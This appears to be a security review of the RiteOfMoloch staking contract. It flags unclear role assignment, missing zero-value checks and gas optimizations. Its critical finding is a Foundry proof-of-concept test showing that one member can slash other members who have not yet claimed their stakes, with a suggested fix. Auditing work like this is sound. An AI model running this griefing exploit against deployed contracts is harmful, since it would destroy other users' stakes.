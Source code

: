## Smart Contract Review Notes

### Unclear
- The tests in the original repository imply the the deployer gains `ADMIN` and `OPERATOR` roles on deployment. This is unclear at the moment as those roles seem to be assigned to the factory and not the address initiating the transaction. ( see @dev statements of `testDeploys()` in `RiteOfMoloch.t.sol`)

- week specified but not enforced
```
// enforce that the minimum time is greater than 1 week
require(newMaxTime > 0, "Minimum duration must be greater than 0!"); 
```

### Suggestions
- Insufficient 0-value checks. This might be a feature. Unclear, however it does go against general good practice.

### Concerns
- A new RiteOfMoloch instance can be successfully initialized with `InitData.threshold = 0`.
In such a state `isMember(anyAddress_)` results in a unnaccounted for EVM Error due to the fact that `InitData.membershipCriteria` is 0. Any call to dao will have same result. The same applies for `InitData.stakingAsset`: can be zero and transfersFrom address(0) will error.
- `isMember(address user) public view returns (bool memberStatus)`: return value declared but not used.

### Optimizations

- in `isMember(address user) public view returns (bool memberStatus)` replace
    ```
        if (shares >= minimumShare) {
            return true;
        }

        else {
            return false;
        }
    ```
    with: `if (shares >= minimumShare) memberStatus = true;`

- `_darkRitual()` loop.

- `_claim()` - prioritizes checks-effects-interactions pattern
    ```
    function _claim() internal virtual returns (bool) {
            address msgSender = msg.sender; /// @note false-positive optimisation
            // enforce that the initiate has stake
            require(_staked[msgSender] > 0, "User has no stake!!");

            // store the user's balance
            uint256 balance = _staked[msgSender];

            // delete the balance
            delete _staked[msgSender];

            // delete the deadline timestamp
            delete deadlines[msgSender];

            // log data for this successful claim
            emit Claim(msgSender, balance);

            // return the new member's original stake
            return _token.transfer(msgSender, balance);
        }
    ```
- duplicate functionality. modifier and public function to determine if isMember.
- 


### Critical
- it is currently possible for a member to slash other members; where 'other members' have not (yet) claimed their stake back. The success of this depends on the order of transactions. Slashing does not check if one is or is not a member but if one (still) has a stake. All initiates that: (1) are members, (2) have not claimed their stake and the deadline for becoming a member has passed

    ```
    function testInitiateGriefingAttack() public {

        /// Thesis
        /// Any member can slash fellow members that have not yet claimed their stake back after deadline.
        /// this opens up a race condition  / griefing attack
        /// no gain mostly pain

        /// actors
        address hasClainedUngriefable = address(bytes20(keccak256("hasClaimedUngriefable")));
        address hasNotClaimedGriefable = address(bytes20(keccak256("hasNotClaimedGriefable")));
        address hackermansMember = address(bytes20(keccak256("hackermansMember")));

        /// mainnet cohort initialization params (https://blockscout.com/xdai/mainnet/tx/0xe8123d8b9b4e563bcd1bc8e91f48f6a43087edb787ad96fdd2af693037e7638a)

        address moloch = address(fakeMoloch);
        address implementation = 0x4589b0760baD5fAfBdAD8f3e8227991e8Ee99160;
        address treasury = implementation;
        uint assetAmount = 5000000000000000000000;
        uint maxTime = 15780000;

        address realRaidWhale =  0x187089B33E5812310Ed32A57F53B3fAD0383a19D;
        //raidWhale = realRaidWhale;
        //raidToken = MockRaid(stakingAsset); // ERC20
        address raidTokenAddress = address(raidToken);

        /// fund actors
        vm.startPrank(raidWhale, raidWhale);
        raidToken.transfer(hasClainedUngriefable, assetAmount);
        raidToken.transfer(hasNotClaimedGriefable, assetAmount); 
        raidToken.transfer(hackermansMember, assetAmount); 
        vm.stopPrank();


        InitD = InitData(moloch, raidTokenAddress, moloch, 100, assetAmount, maxTime, "Rite of Moloch - Cohort V", "ROM", "https://ipfs.io/ipfs/Qmd286K6pohQcTKYqnS1YhWrCiS4gz7Xi34sdwMe9USZ7u");  
        address at = riteFactory.createCohort(InitD, 1);
        console.log(at);
        riteOfMoloch = RiteOfMoloch(at);

    
        /// 3 join initiation pack
        vm.prank(hasClainedUngriefable,hasClainedUngriefable);
        raidToken.approve(address(riteOfMoloch), type(uint).max);
        vm.prank(hasClainedUngriefable,hasClainedUngriefable);
        riteOfMoloch.joinInitiation(hasClainedUngriefable);
        assertTrue(riteOfMoloch.isMember(hasClainedUngriefable)); //fake

        skip(100);

        vm.prank(hasNotClaimedGriefable,hasNotClaimedGriefable);
        raidToken.approve(address(riteOfMoloch), type(uint).max);
        vm.prank(hasNotClaimedGriefable,hasNotClaimedGriefable);
        riteOfMoloch.joinInitiation(hasNotClaimedGriefable); 
        assertTrue( riteOfMoloch.isMember(hasNotClaimedGriefable)); //fake

        skip(100);

        vm.prank(hackermansMember,hackermansMember);
        raidToken.approve(address(riteOfMoloch), type(uint).max);
        vm.prank(hackermansMember,hackermansMember);
        riteOfMoloch.joinInitiation(hackermansMember);
        assertTrue( riteOfMoloch.isMember(hackermansMember)); //fake
        ///

        skip(maxTime * 2);

        /// member slashes member that has not claimed yet <---- 'big trouble'
        address[] memory lambs = new address[](3);
        lambs[0] = hasClainedUngriefable;
        lambs[1] = hasNotClaimedGriefable;


        /// hackermaans has 0 slashed balance
        assertTrue(riteOfMoloch.totalSlash(hackermansMember) == 0, "script kiddie already hackermans");

        /// on slash the .totalSlash() is incremented by _staked[initiate];
        /// if both slash assetAmount * number of labs slashed

        /// both lambs are member, but only one claims stake back
        uint bfClaim = raidToken.balanceOf(hasClainedUngriefable);
        vm.prank(hasClainedUngriefable, hasClainedUngriefable);
        riteOfMoloch.claimStake();
        assertTrue(bfClaim < raidToken.balanceOf(hasClainedUngriefable), "claim unsuccessful");
        
        vm.prank(hackermansMember, hackermansMember);
        riteOfMoloch.sacrifice(lambs);

        assertTrue(riteOfMoloch.totalSlash(hackermansMember) == 5000000000000000000000, "script kiddie for real");

        {
        /// check if still initiate
        assertTrue(riteOfMoloch.deadlines(lambs[0]) == 0, "still initialte");
        assertTrue(riteOfMoloch.deadlines(lambs[1]) == 0, "still initiate");
        }
        
        /// Potential Solution:
        // If member continue ! do not slash
        ```